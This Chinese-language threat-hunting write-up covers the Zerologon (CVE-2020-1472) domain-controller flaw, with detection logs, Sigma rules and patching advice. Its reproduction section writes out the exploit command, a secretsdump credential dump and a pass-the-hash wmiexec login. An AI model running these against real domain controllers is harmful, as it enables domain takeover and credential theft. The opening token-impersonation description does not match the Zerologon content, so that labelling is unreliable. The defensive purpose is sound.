 # T1134.001-Win-CVE-2020-1472

## 描述

攻击者可能通过复制并冒充另一个用户的令牌来提升特权并绕过访问控制。攻击者可以使用`DuplicateToken(Ex)`函数创建新的访问令牌，复制现有令牌。然后，该令牌可通过`ImpersonateLoggedOnUser`使调用线程模拟已登录用户的安全上下文，或通过`SetThreadToken`将模拟令牌分配给线程。

当攻击者拥有一个特定的现有进程并希望将新令牌分配给该进程时，这种技术尤为有效。例如，当目标用户在系统上具有非网络登录会话时，攻击者可能利用此方法。

## 测试案例

2020年9月11日，安全研究员Secura发布公告，详细说明了Microsoft于2020年8月修补的漏洞（CVE-2020-1472）。该漏洞被称为“Zerologon”，CVSS评分高达10.0，因其能在短时间内（号称3秒）攻陷域控制器（DC），危害极大。攻击者可通过NetLogon（MS-NRPC）协议与活动目录（AD）域控制器建立安全通道时，利用该漏洞将域控制器的计算机账号密码置为空，从而完全控制域控制器。本文从漏洞原理、复现过程和威胁狩猎三个方面对该漏洞进行分析。

具体内容可参考安全客文章：[Zerologon分析与狩猎](https://www.anquanke.com/post/id/219090#h2-2)。

## 检测日志

- **Windows 系统日志**：通过Windows事件查看器中的系统日志捕获相关事件。
- **全流量日志**：通过网络流量分析工具（如Zeek）捕获NetLogon协议的异常请求。

此外，Microsoft在2020年8月的补丁中新增了五个事件ID，用于监控易受攻击的NetLogon连接：
1. **Event ID 5829**：允许存在漏洞的NetLogon安全通道连接时触发。
2. **Event ID 5827/5828**：拒绝易受攻击的NetLogon连接时触发。
3. **Event ID 5830/5831**：允许存在漏洞的NetLogon连接时触发。

如果域控制器已安装相关补丁，可通过上述事件ID进行威胁狩猎。

## 测试复现

以下复现过程参考安全客文章：[Zerologon分析与狩猎](https://www.anquanke.com/post/id/219090#h2-2)。

### 实验环境

```yaml
域控制器：
  系统：Windows Server 2012 R2（x64）
  IP：10.10.10.10
  主机名：DC
  域：de1ay.com
```

![Windows域控](https://p4.ssl.qhimg.com/t01d53a30398ec357a2.jpg)

```yaml
攻击机：
  系统：Ubuntu 16.04（x64）
  IP：10.10.10.111
```

![攻击机](https://p4.ssl.qhimg.com/t019275a00ca38b1d6b.jpg)

### 复现步骤

1. **运行漏洞利用脚本**  
   使用公开的CVE-2020-1472漏洞利用脚本，将域控制器机器账户（DC）的密码置为空：

   ```bash
   python3 cve-2020-1472-exploit.py DC 10.10.10.10
   ```

   ![漏洞利用](https://p0.ssl.qhimg.com/t01f402a9c7c4c3b532.jpg)

2. **导出域内凭据**  
   域控制器账户密码置为空后，可视为已知密码，使用`secretsdump.py`导出域内所有用户凭据：

   ```bash
   python3 secretsdump.py de1ay/DC\$@10.10.10.10 -no-pass
   ```

   ![凭据导出](https://p0.ssl.qhimg.com/t01497ee0714e6f98cc.jpg)

   导出的哈希中，DC账户的NTLM哈希为`31d6cfe0d16ae931b73c59d7e0c089c0`，表示空密码。同时，获得了域管理员（Administrator）的哈希。

3. **利用域管理员哈希控制域控**  
   使用域管理员的NTLM哈希通过`wmiexec.py`登录域控制器，完成接管：

   ```bash
   python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 Administrator@10.10.10.10
   ```

   ![域控接管](https://p5.ssl.qhimg.com/t0140b167f7020733c8.jpg)

## 测试留痕

暂无具体留痕描述，建议参考安全客文章：[Zerologon分析与狩猎](https://www.anquanke.com/post/id/219090#h2-2)。

可能的留痕包括：
- Windows系统日志中的NetLogon相关事件（Event ID 5827–5831）。
- 网络流量中异常的NetLogon协议请求（如大量`NetrServerReqChallenge`或`NetrServerAuthenticate3`请求）。

## 检测规则/思路

### Sigma规则

#### 检测规则1：Zeek检测异常NetLogon请求

```yaml
title: Possible CVE-2020-1472 (Zerologon)
description: CVE-2020-1472 (Netlogon Elevation of Privilege Vulnerability) may create thousands of NetrServerReqChallenge & NetrServerAuthenticate3 requests in a short amount of time.
author: SOC Prime Team
date: 2020/09/11
references:
  - https://github.com/SecuraBV/CVE-2020-1472
tags:
  - attack.lateral_movement
  - attack.t1210
logsource:
  product: zeek
  service: dce_rpc
detection:
  selection:
    endpoint: 'netlogon'
    operation: 'NetrServerReqChallenge'
  selection2:
    endpoint: 'netlogon'
    operation: 'NetrServerAuthenticate3'
  timeframe: 1m
  condition: selection or selection2 | count() by src_ip > 100
falsepositives:
  - Unknown
level: high
```

#### 检测规则2：Windows系统日志检测

```yaml
title: Vulnerable Netlogon Secure Channel Connection Allowed
id: a0cb7110-edf0-47a4-9177-541a4083128a
status: experimental
description: Detects that a vulnerable Netlogon secure channel connection was allowed, which could be an indicator of CVE-2020-1472.
references:
  - https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
author: NVISO
date: 2020/09/15
tags:
  - attack.privilege_escalation
logsource:
  product: windows
  service: system
detection:
  selection:
    EventID:
      - 5829 # 需域控安装补丁后生效
  condition: selection
fields:
  - SAMAccountName
falsepositives:
  - Unknown
level: high
```

### 建议

1. **立即应用补丁**：确保所有域控制器安装了2020年8月或之后的Microsoft安全更新（KB4571729等），以修复CVE-2020-1472漏洞。
2. **启用NetLogon日志**：在域控制器上启用详细的NetLogon日志记录，监控Event ID 5827–5831。
3. **部署网络监控**：使用Zeek或其他网络流量分析工具，检测异常的NetLogon协议请求（如短时间内大量`NetrServerReqChallenge`或`NetrServerAuthenticate3`请求）。
4. **审查机器账户活动**：定期检查域控制器机器账户的异常登录或密码重置行为。
5. **实施SIEM系统**：结合Sigma规则，使用SIEM系统（如Splunk、Elastic）实时监控和分析相关事件。
6. **测试规则效果**：上述Sigma规则未在真实环境中广泛验证，建议在测试环境中验证其有效性，并根据实际环境调整阈值以减少误报。

## 参考推荐

- MITRE ATT&CK: T1134.001  
  <https://attack.mitre.org/techniques/T1134/001/>
- Zerologon（CVE-2020-1472）分析与狩猎  
  <https://www.anquanke.com/post/id/219090#h2-2>
- Sigma规则：CVE-2020-1472  
  <https://github.com/Neo23x0/sigma/blob/2cd9b794e677a038f3ace5b15d649ca191809846/rules/windows/builtin/win_vul_cve_2020_1472.yml>
- Microsoft NetLogon补丁说明  
  <https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc>
